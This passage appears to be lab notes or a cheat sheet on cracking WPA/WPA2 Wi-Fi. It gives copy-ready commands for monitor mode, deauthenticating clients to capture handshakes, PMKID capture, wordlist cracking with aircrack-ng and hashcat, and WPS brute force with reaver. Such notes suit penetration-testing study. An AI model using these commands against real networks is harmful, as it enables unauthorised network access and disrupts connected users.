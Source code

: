 - Crack with Hashcat:  
    `hashcat -m 22000 hash /opt/wordlist.txt`
    
- Show results:  
    `hashcat -m 22000 hash /opt/wordlist.txt --show`
    

**Note:** PMKID can be verified in Wireshark under **EAPOL M1 → WPA Key Data → RSN PMKID tag**.

---

## Reference Snippets (quick copy)

```bash
# Monitor mode & verify
sudo airmon-ng start wlan0 && iwconfig

# Airodump targeted capture
sudo airodump-ng -c <ch> --bssid <BSSID> -w WPA wlan0mon

# Deauth for handshake
sudo aireplay-ng -0 5 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon

# Handshake check
cowpatty -c -r WPA-01.cap

# Crack handshake (wordlist)
aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap

# PMKID capture & convert
hcxdumptool -i wlan0mon --enable_status=3 -o out.pcap
hcxpcapngtool -o hash out.pcap
hashcat -m 22000 hash /opt/wordlist.txt --show

# WPS scan & attack
wash -i wlan0mon   # or -j for JSON
reaver -i mon0 -c <ch> -b <BSSID>
```

---

## Summary

WPA/WPA2 rely on PBKDF2‑derived PMK and a nonce‑based 4‑way handshake that never transmits the PSK. In practice, attackers capture a **handshake** (via deauth) or a **PMKID** (client‑less), or exploit **WPS** to obtain the PSK. Your notes here include the **full filters, formulas, scripts, and sample outputs** so nothing is lost; you can use them directly in labs.